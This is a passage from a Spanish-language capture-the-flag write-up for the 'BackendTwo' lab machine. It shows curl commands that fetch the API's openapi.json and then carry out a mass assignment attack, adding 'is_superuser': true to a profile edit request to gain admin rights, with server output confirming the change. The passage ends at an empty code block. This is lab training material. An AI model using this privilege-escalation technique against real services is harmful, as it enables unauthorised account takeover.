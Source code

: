 ![backendtwo2_2](https://user-images.githubusercontent.com/96772264/200114099-265d0d20-adf0-4a8c-9af1-3627c3c566f3.PNG)

Al igual que la anterior maquina hay un directorio openapi.json con todas las rutas, puede que haya información interesante.
```console
└─$ curl -X 'GET' \
  'http://10.10.11.162/openapi.json' \
  -H 'accept: application/json' \
  -H "Authorization: bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9..." | jq > openapi.json
```
En openapi son curiosas ciertas lineas:
```
"/api/v1/admin/file/{file_name}": {
	"description": "Returns a file on the server. File name input is encoded in base64_url",
```
Probé el endpoint de editar contraseña, pero me devolvió un 403 bad requests. 

-------------------------
# Part 3: Elevando privilegios con un Mass assignment attack

- Este es mi usaurio
```
{"guid":"89e788f8-d7a0-46c6-960a-5cfb38ebd217","email":"cucuxii@backendtwo.htb","profile":null,"last_update":null,"time_created":1667562252633,"is_superuser":false,"id":12}
```
- Este es el admin
```
{"guid":"25d386cd-b808-4107-8d3a-4277a0443a6e","email":"admin@backendtwo.htb","profile":"UHC Admin","last_update":null,"time_created":1650987800991,"is_superuser":true,"id":1}
```
Lo que cambia principalmente es el parámetro **is_superuser**. 
Tenemos un endpoint para cambiar cosas del perfil, vamos a tocar el nuestro:
```console
curl -X 'PUT' 'http://10.10.11.162/api/v1/user/12/edit' \
  -H 'accept: application/json' -H 'Content-Type: application/json' \
  -H "Authorization: bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9..." -d '{ "profile": "Test" }'
└─$ curl -s http://10.10.11.162/api/v1/user/12
{"guid":"89e788f8-d7a0-46c6-960a-5cfb38ebd217","email":"cucuxii@backendtwo.htb","profile":"Test","last_update":null,"time_created":1667562252633,"is_superuser":false,"id":12}  
```
Ahora el campo profile que es el que nos han dado, se ha cambiado a "Test", como he dicho ese campo NOS LO HAN DADO, pero ¿Y si metemos otro paŕametro
de cosecha propia? La diferencia entre el admin y nosotros es lo de **is_superuser**. Así que podríamos probar a meterlo

![backendtwo2_4](https://user-images.githubusercontent.com/96772264/200114138-1ded0687-5abe-4c7d-89a8-099c4a857af8.PNG)

```console
curl -X 'PUT' 'http://10.10.11.162/api/v1/user/12/edit' \
  -H 'accept: application/json' -H 'Content-Type: application/json' \
  -H "Authorization: bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9..." -d '{ "profile": "Test","is_superuser": true}'
└─$ curl -s http://10.10.11.162/api/v1/user/12 
{"guid":"89e788f8-d7a0-46c6-960a-5cfb38ebd217","email":"cucuxii@backendtwo.htb","profile":"Test","last_update":null,"time_created":1667562252633,"is_superuser":true,"id":12} 
```
Como vemos, el campo **is_superuser** se ha actualizado. Esto es un **MASS ASSGINMENT ATTACK**, un ataque donde te permiten modificar algo (profile) 
y tu modificas más cosas de las esperadas (is_superuser).
Nuestra cookie tambien es diferente.
```console
```